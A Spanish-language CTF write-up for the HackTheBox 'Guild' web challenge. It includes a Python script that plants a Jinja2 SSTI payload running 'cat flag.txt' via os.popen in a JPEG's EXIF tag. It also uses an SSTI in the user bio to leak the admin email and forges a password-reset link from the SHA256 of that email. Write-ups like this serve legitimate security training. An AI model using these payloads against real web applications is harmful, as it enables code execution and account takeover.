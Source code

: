 ```yaml
---
title: Guild Web CTF - HackTheBox
layout: post
permalink: /writeups/HTB/CTF/guild
date: 2025-02-14 11:00:00 +0000
categories: [HacktheBox, CTF, Web]
tags: [HacktheBox, CTF, Web]
image:
  path: /assets/img/cabeceras_genericas/htb.jpg
  alt: Guild Web CTF - HackTheBox
description: >
  Guía de explotación de vulnerabilidades en el CTF HackTheBox Guild Web.
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


# Creación del usuario

![alt text](/assets/img/writeups/hackthebox/guild-ctf-htb/image.png)

Creamos un usuario cualquiera de forma sencilla.

Una vez creado podemos iniciar sesión.

![alt text](/assets/img/writeups/hackthebox/guild-ctf-htb/image-1.png)

# Creación del payload

Para poder obtener la flag vamos a necesitar crear una imagen .jpg con un tag "artist" 

Script para crear la imagen:

{% raw %}
```python
from PIL import Image
import piexif

def create_exif_exploit():
    # Crear una imagen nueva
    img = Image.new('RGB', (50, 50), color='white')
    
    # Crear datos EXIF - El tag Artist está en el IFD principal (0th)
    zeroth_ifd = {
        piexif.ImageIFD.Artist: "{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}".encode('utf-8')
    }
    
    # Generar el diccionario EXIF completo
    exif_dict = {"0th": zeroth_ifd, "Exif": {}, "1st": {}, "thumbnail": None, "GPS": {}}
    
    # Convertir el diccionario a bytes
    exif_bytes = piexif.dump(exif_dict)
    
    # Guardar la imagen con los datos EXIF
    img.save('exploit.jpg', 'JPEG', exif=exif_bytes)
    print("Imagen creada con éxito: exploit.jpg")

if __name__ == "__main__":
    create_exif_exploit()

```
{% endraw %}

Con este script crearemos la imagen con el tag "artist" y podremos obtener la flag que se encuentra en la raiz de la web.

![alt text](/assets/img/writeups/hackthebox/guild-ctf-htb/image-2.png)

Una vez subida la imagen para poder ejecutar el payload hay que conseguir acceso a la cuenta de administrador.

# Acceso a la cuenta de administrador

Como sabemos por el código de la web, la cuenta de administrador se genera automáticamente al crear el docker además de que la cuenta de mail generada así como la contraseña son 8 carácteres en hexadcimal generados aleatoriamente.

Esto imposibilita la idea de realizar un ataque de fuerza bruta.

Teniendo esto en cuenta y analizando el comportamiento de la web podemos realizar una inyección SSTI en la bio del usuario que tenemos registrado para poder obtener la el mail de la cuenta de administrador.

## Análisis de código

Si bien en el template de la bio la inyección no se puede llevar a cabo, en la generación de página para compartir el perfil de usuario la situación es diferente.

```python
@views.route("/user/<link>")
def share(link):
    query = Validlinks.query.filter_by(validlink=link).first()
    if query:
        email = query.email
        query1 = User.query.filter_by(email=email).first()
        bio = Verification.query.filter_by(user_id=query1.id).first().bio
        temp = open("/app/website/templates/newtemplate/shareprofile.html", "r").read()
        return render_template_string(temp % bio, User=User, Email=email, username=query1.username)
```

Si observamos las variables que se le pasan al render_template_string, vemos que se pasa el modelo User completo. En Flask/SQLAlchemy podemos usar esto para hacer queries. Por lo tanto podríamos intentar pasar una query consultando el correo de la cuenta de administrador.

`User.query.filter_by (username='admin').first().email`

## Exploit

![alt text](/assets/img/writeups/hackthebox/guild-ctf-htb/image-3.png)

Hacemos click donde dice "share profile" y copiamos el link.

![alt text](/assets/img/writeups/hackthebox/guild-ctf-htb/image-4.png)

![alt text](/assets/img/writeups/hackthebox/guild-ctf-htb/image-5.png)

`4758505255527057@master.guild`

Ahora que tenemos el mail vamos a explotar el forget password.

# Explotando el forget password

Ahora que sabemos el mail de administrador podemos forzar el cambio de contraseña explotando una vulnerabilidad que hemos econtrado en el código.

Necesitamos primero indicar que hemos olvidado la contraseña de la cuenta de administrador con su mail.

Volvemos al login y hacemos click en "Forgot password?", introducimos el mail de administrador y pulsamos el botón "Send".

![alt text](/assets/img/writeups/hackthebox/guild-ctf-htb/image-6.png)

Ahora como podemos ver en el código fuente, se genera un hash sha256 con el mail de la cuenta de administrador y esto se pasa a la función changepasswd.

1. Funcion para cambiar generando el hash:

```python
@views.route("/forgetpassword", methods=["GET", "POST"])
def forgetpassword():
    if request.method == "POST":
        email = request.form.get("email")
        query = User.query.filter_by(email=email).first()
        if query:
            # El hash es simplemente el SHA256 del email
            reset_url = str(hashlib.sha256(email.encode()).hexdigest())
```

2. Función para cambiar la contraseña:

```python
@views.route("/changepasswd/<Hash>",methods=["GET", "POST"])
def changepasswd(Hash):
    query = Validlinks.query.filter_by(validlink=Hash).first()
```

Sabiendo esto y que ya hemos generado en la base de datos la petición de cambio de contraseña podemos hacer el siguiente ataque.

Creamos exactamente la misma función que genera el hash del codigo.

```python
import hashlib

# Reemplaza esto con el email que obtuviste
admin_email = "4758505255527057@master.guild"

# Calcular el hash
reset_url = hashlib.sha256(admin_email.encode()).hexdigest()
print(reset_url)
```

Copiamos el hash y lo pasamos a la función changepasswd.

```bash
❯ python3 hashmail.py
336337986c1d078c19ef0aecef621d163fc5acc8feebde5efb2ffd79704f542e
```	
![alt text](/assets/img/writeups/hackthebox/guild-ctf-htb/image-7.png)

Con esto conseguimos cambair la contraseña del usuario administrador.

# Obtención de la flag

Ahora que acceso al panel de verificación de imágenes, podemos obtener la flag.

![alt text](/assets/img/writeups/hackthebox/guild-ctf-htb/image-8.png)

Si hacemos click en verify ejecutaremos el SSTI y obtendremos la flag.

![alt text](/assets/img/writeups/hackthebox/guild-ctf-htb/image-9.png)

